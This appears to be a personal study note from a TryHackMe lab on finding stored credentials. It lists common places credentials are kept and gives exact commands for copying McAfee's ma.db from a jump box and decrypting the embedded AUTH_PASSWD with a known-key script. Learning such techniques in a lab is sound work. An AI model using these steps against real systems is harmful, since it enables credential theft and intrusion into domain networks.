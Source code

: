 -   Web application config files 
-   Service configuration files
-   Registry keys
-   Centrally deployed applications
Try Seatbelt https://github.com/GhostPack/Seatbelt

Recovering creds from a centrally deployed app. Apps like McAfee Enterprise Endpoint Security will need to authenticate at installation and execution. 
McAfee imbeds its creds during install to connect back to ma.db.
1. (From a jump box) Get ma.db from its fixed location `cd C:\ProgramData\McAfee\Agent\DB`
2. Secure copy the file back to our local machine `scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .`
3. As a database file, use `sqlitebrowser ma.db` to view the file
4. In AGENT_REPOSITORIES, the DOMAIN, AUTH_USER, and AUTH_PASSWD are hidden, but encrypted with a known key.
5. Using an old python2 script (provided in ex.) decrypt the file to dump the values
	1. `unzip mcafeesitelistpwddecryption.zip`
	2. from unzipped dir, `python2 mcafee_sitelist_pwd_decrypt.py PASSWORD_VAL`

